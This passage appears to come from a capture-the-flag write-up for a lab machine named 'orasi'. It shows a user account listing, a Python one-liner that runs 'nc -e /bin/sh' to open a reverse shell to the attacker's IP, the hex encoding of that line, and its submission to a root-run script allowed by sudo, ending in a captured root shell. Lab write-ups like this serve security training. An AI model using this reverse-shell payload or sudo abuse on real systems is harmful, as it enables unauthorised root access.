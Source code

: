 ```
  irida@orasi:~$ ls
  irida.apk  user.txt
  irida@orasi:~$
{% endhighlight %}

## String to Hex

{% highlight sh %}
__import__('os').system('nc -e /bin/sh 10.0.2.15 1234')
5f5f696d706f72745f5f28276f7327292e73797374656d28276e63202d65202f62696e2f73682031302e302e322e313520313233342729
{% endhighlight %}

## Root shell

- Target VM

{% highlight sh %}
  irida@orasi:~$ sudo -l
  Matching Defaults entries for irida on orasi:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

  User irida may run the following commands on orasi:
      (root) NOPASSWD: /usr/bin/python3 /root/oras.py
  irida@orasi:~$ sudo -u root /usr/bin/python3 /root/oras.py
  : 5f5f696d706f72745f5f28276f7327292e73797374656d28276e63202d65202f62696e2f73682031302e302e322e313520313233342729
{% endhighlight %}

- My Listener

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ nc -lvp 1234
  listening on [any] 1234 ...
  connect to [10.0.2.15] from 10.0.2.176 [10.0.2.176] 33580
  /usr/bin/script -qc /bin/bash /dev/null
  root@orasi:/home/irida# cd
  cd
  root@orasi:~# ls
  ls
  oras.py  root.txt
  root@orasi:~#
{% endhighlight %}
